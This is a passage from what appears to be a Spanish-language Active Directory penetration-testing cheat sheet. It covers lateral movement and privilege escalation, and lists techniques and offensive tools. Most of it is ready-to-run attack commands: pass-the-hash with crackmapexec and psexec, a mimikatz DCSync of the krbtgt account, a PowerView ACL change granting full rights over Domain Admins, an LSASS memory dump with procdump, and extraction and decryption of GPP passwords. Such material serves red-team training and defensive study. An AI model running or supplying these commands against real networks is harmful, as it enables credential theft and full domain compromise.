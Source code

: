 #### Ejemplo: Pass-the-Hash
```bash
crackmapexec smb <target> -u usuario -H <NTLM_HASH>
psexec.py -hashes :<NTLM_HASH> dominio/usuario@<ip>
```

#### Ejemplo: DC Sync
```powershell
mimikatz # lsadump::dcsync /domain:dominio.local /user:krbtgt
```

#### Ejemplo: RBCD (Resource-Based Constrained Delegation)
- [Abuso con PowerMad y PowermadSharp](https://github.com/Kevin-Robertson/Powermad)

---

<a name="privesc"></a>
## 5. Privilege Escalation (Privesc)

### TÃ©cnicas de Escalada

- **Kerberoasting / AS-REP Roasting**
- **Abuso de Delegaciones (Unconstrained, Constrained, RBCD)**
- **Abuso de GPOs (Group Policy Objects)**
- **Abuso de ACLs (WriteDACL, GenericWrite, GenericAll, WriteOwner)**
- **MS14-068, MS17-010 (EternalBlue), PrintNightmare, ZeroLogon, PetitPotam**
- **Abuso de LAPS, GPP Passwords, credenciales almacenadas**
- **Credential Dumping (LSASS, SAM, DCSync)**
- **Escalada Local: SeDebugPrivilege, Service misconfig, Unquoted Service Path, AlwaysInstallElevated, DLL Hijacking, UAC Bypass, Print Spooler, etc.**
- **Abuso de Certificados (AD CS, ESC1-ESC8)**

#### Herramientas para Privesc
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [SharpHound](https://github.com/BloodHoundAD/BloodHound)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

#### Ejemplo: Abuso de WriteDACL en PowerView
```powershell
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity USUARIO -Rights All
```

#### Ejemplo: Dump LSASS con procdump
```bash
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

#### Ejemplo: Privesc con GPP Passwords
```bash
findstr /S cpassword \\<share>\SYSVOL\
gpp-decrypt <cpassword>
```
